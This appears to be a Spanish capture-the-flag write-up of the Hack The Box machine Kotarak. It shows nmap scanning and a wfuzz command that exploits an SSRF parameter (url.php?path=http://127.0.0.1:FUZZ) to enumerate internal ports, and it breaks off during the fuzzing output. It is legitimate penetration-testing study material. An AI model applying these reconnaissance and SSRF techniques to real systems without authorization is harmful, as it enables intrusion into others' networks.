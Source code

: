 ```yaml
---
layout: post
title:  "OSCP Path ~ Kotarak de Hack The Box (Necesario VIP)"
categories: "HTB OSCP-PATH"
description: Writeup de la maquina de HackTheBox llamada KOTARAK siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, SSRF, Tomcat 8.6, Impackect-SecretsDump, Wget Privesc, CRON, Maquinas Retiradas, Writeup, Hacking
---
```


# Kotarak ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.55       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:d7:ca:0e:b7:cb:0a:51:f7:2e:75:ea:02:24:17:74 (RSA)
|   256 e8:f1:c0:d3:7d:9b:43:73:ad:37:3b:cb:e1:64:8e:e9 (ECDSA)
|_  256 6d:e9:26:ad:86:02:2d:68:e1:eb:ad:66:a0:60:17:b8 (ED25519)
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat/8.5.5 - Error report
60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:         Kotarak Web Hosting        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Procedemos a hacer un reconocimiento visual de los servicios `http` en los diferentes puertos encontrados:
```bash
# 1 - http://10.10.10.55:8080/
Apache Tomcat/8.5.5

# 2 - http://10.10.10.55:60000/ 
Encontramos un buscador en el cual intentamos apuntar a la localhost de la maquin por el puerto 22 que sabiamos que estaba abierto.
Vemos que nos responde correctamente  para el puerto 22 que si estaba abierto.
``` 
Probamos a usar la herramienta Wfuzz para fuzzear por el campo que tenemos, nos creamos un diccionario `PortsDicc.txt
```bash
# wfuzz -c --hc=404 --hl=2 -t 200 -w PortsDicc.txt http://10.10.10.55:60000/url.php?path=http://127.0.0.1:FUZZ                       130 ⨯
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.55:60000/url.php?path=http://127.0.0.1:FUZZ
```